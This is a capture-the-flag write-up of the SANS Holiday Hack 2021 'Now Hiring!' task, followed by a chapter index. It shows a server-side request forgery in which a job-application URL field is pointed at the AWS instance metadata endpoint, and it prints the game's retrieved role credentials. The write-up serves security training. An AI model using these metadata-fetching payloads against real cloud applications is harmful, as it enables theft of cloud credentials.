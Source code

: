 # Writeup for SANS Holiday Hack Challenge 2021 – Jack’s Back! featuring KringleCon 4: Calling Birds
## 10. Now Hiring!
### 10.0. Description
Difficulty: :christmas_tree::christmas_tree::christmas_tree:  
What is the secret access key for the [Jack Frost Tower job applications server](https://apply.jackfrosttower.com/)? Brave the perils of Jack's bathroom to get hints from Noxious O. D'or.

### 10.1. Side Challenge - IMDS Exploration

### 10.2. Hints
**AWS IMDS Documentation** - *Noxious O. D'or*: “The AWS documentation for IMDS is interesting reading.”

#### 10.3. Solution
The application form allows the insertion of an URL under the name of “URL to your public NLBI report”:  
![Apply](00_Apply.png)

I gave the URL of a computer I own and observed the application was fetching the URL specified without much control:
```bash
root@debian:~/hiring# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 …
34.132.188.111 - - [06/Jan/2022 08:44:41] "GET / HTTP/1.0" 200 -
34.132.188.111 - - [06/Jan/2022 08:44:56] code 404, message File not found
34.132.188.111 - - [06/Jan/2022 08:44:56] "GET /non-existent HTTP/1.0" 404 -
34.132.188.111 - - [06/Jan/2022 08:46:56] "GET /test_test_test HTTP/1.0" 200 -
```

When the file does not exist (`non-existent`), the application is just accepted:  
![01_non-existent.png](01_non-existent.png)

In case the file exist (`test_test_test`), the application shows more data:
![02_existent.png](02_existent.png)

Inspecting the broken image link, it is possible to recognize it is returning the content of the test page:
```bash
root@debian:~/hiring# curl "https://apply.jackfrosttower.com/images/asd.jpg"
Hi, I'm a test file!
```

At that point it was pretty straightforward to go ahead and test with AWS URLs considering the side challenge.
Submitting the URL http://169.254.169.254/latest/meta-data/iam/security-credentials I retrieved the "jf-deploy-role" user.
Submitting the URL http://169.254.169.254/latest/meta-data/iam/security-credentials/jf-deploy-role:
```json
{
  "Code": "Success",
  "LastUpdated": "2021-05-02T18:50:40Z",
  "Type": "AWS-HMAC",
  "AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
  "SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
  "Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
  "Expiration": "2026-05-02T18:50:40Z"
}
```

As the challenge required the `SecretAccessKey`, it is `CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX`.

#### 10.4. Thank you for the proxy
![meme](03_meme.png)

---
## [2. Where in the World is Caramel Santiaigo?](README.md)
## [2.1. Side Challenge - Exif Metadata](README.md)
## [3. Thaw Frost Tower's Entrance](README.md)
## [3.1. Side Challenge - Grepping for Gold](README.md)
## [4. Slot Machine Investigation](README.md)
## [4.1. Side Challenge - Logic Munchers](README.md)
## [5. Strange USB Device](README.md)
## [5.1. Side Challenge - IPv6 Sandbox](README.md)
## [6. Shellcode Primer](README.md)
## [6.1. Side Challenge - Holiday Hero](README.md)
## [7. Printer Exploitation](README.md)
## [7.0. Description](README.md)
## [8. Kerberoasting on an Open Fire](README.md)
## [8.1. Side Challenge - HoHo … No](README.md)
## [9. Splunk!](README.md)
## [9.1. Side Challenge - Yara Analysis](README.md)
## [10. Now Hiring!](README.md)
## [10.1. Side Challenge - IMDS Exploration](README.md)
## [11. Customer Complaint Analysis](README.md)
## [11.1. Side Challenge - Strace Ltrace Retrace](README.md)
## [12. Frost Tower Website Checkup](README.md)
## [12.1. Side Challenge - The Elf C0de Python Edition](README.md)
## [13. FPGA Programming](README.md)
## [13.1. Side Challenge - Frostavator](README.md)
## [14. Bonus! Blue Log4Jack](README.md)
## [15. Bonus! Red Log4Jack](README.md)
---
## [0. windovo\\thedead> whoami](../README.md)
## [1. KringleCon Orientation](01.%20KringleCon%20Orientation/README.md)
## [16. That’s how Jack came from space](../README.md#16-thats-how-jack-came-from-space)
## [17. Narrative](../README.md#17-narrative)
## [18. Conclusions](../README.md#18-conclusions)